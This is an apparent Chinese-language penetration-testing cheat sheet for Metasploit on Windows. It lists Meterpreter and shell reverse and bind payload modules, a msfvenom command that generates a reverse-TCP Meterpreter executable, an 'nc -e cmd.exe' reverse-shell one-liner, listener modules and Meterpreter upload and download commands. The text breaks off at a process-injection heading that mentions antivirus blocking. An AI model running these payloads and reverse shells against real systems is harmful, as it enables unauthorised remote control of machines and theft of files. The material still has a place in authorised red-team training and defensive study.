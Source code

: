 windows 相关 payload:

> windows/meterpreter/reverse_tcp
>
> windows/meterpreter/bind_tcp
>
> windows/meterpreter/reverse_hop_http
>
> windows/meterpreter/reverse_http
>
> windows/meterpreter/reverse_http_proxy_pstore
>
> windows/meterpreter/reverse_https
>
> windows/meterpreter/reverse_https_proxy
>
> windows/shell_reverse_tcp
>
> windows/shell_bind_tcp
>
> windows/x64/meterpreter/reverse_tcp
>
> windows/x64/meterpreter/bind_tcp
>
> windows/x64/shell_reverse_tcp
>
> windows/x64/shell_bind_tcp

目标服务器为 64 位用 x64 监听，反弹 meterpreter 用含有 meterpreter 的模块，反弹普通的 shell （例如 nc），shell_reverse_tcp 模块监听, 例如 msf:

反弹 shell  

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 

监听:

> windows/meterpreter/reverse_tcp

反弹 shell  

> nc -e cmd.exe ip port 

监听

> windows/shell_reverse_tcp

meterpreter 下上传 

> upload file 

下载 

> download file

### Msf 进程注入(测试 win10 没成功,win2008 可以，360 会拦)
